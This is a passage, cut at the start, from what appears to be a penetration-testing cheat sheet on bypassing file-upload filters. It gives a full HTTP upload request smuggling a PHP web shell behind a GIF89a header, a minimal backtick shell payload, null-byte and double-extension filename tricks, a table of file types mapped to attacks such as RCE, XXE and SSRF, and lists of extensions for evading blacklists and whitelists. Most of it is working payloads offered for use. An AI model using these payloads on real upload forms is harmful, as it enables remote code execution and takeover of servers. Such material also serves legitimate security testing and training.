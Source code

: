 3. Upload the payload, but start with GIF89a; and
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/gif

GIF89a; <?php system("id") ?>
```
And dont forget to change the content-type to image/gif

4. Bypass content length validation, it can be bypassed using small payload
```
(<?=`$_GET[x]`?>)
```

5. Using null byte in filename
```
file.php%00.gif
```

6. Using double extensions for the uploaded file
```
file.jpg.php
```

7.  Uploading an unpopular php extensions (php4,php5,php6,phtml)
```
file.php5
```

8. Try to randomly capitalizes the file extension
```
file.pHP5
```

9. Mix the tips!


- Upload Function
    - Extensions Impact
        - `ASP`, `ASPX`, `PHP5`, `PHP`, `PHP3`: Webshell, RCE
        - `SVG`: Stored XSS, SSRF, XXE
        - `GIF`: Stored XSS, SSRF
        - `CSV`: CSV injection
        - `XML`: XXE
        - `AVI`: LFI, SSRF
        - `HTML`, `JS` : HTML injection, XSS, Open redirect
        - `PNG`, `JPEG`: Pixel flood attack (DoS)
        - `ZIP`: RCE via LFI, DoS
        - `PDF`, `PPTX`: SSRF, BLIND XXE
    - Blacklisting Bypass
        - PHP → `.phtm`, `phtml`, `.phps`, `.pht`, `.php2`, `.php3`, `.php4`, `.php5`, `.shtml`, `.phar`, `.pgif`, `.inc`
        - ASP → `asp`, `.aspx`, `.cer`, `.asa`
        - Jsp → `.jsp`, `.jspx`, `.jsw`, `.jsv`, `.jspf`
        - Coldfusion → `.cfm`, `.cfml`, `.cfc`, `.dbm`
        - Using random capitalization → `.pHp`, `.pHP5`, `.PhAr`
    - Whitelisting Bypass
        - `file.jpg.php`
        - `file.php.jpg`
        - `file.php.blah123jpg`
        - `file.php%00.jpg`
        - `file.php\x00.jpg` this can be done while uploading the file too, name it `file.phpD.jpg` and change the D (44) in hex to 00.
        - `file.php%00`
        - `file.php%20`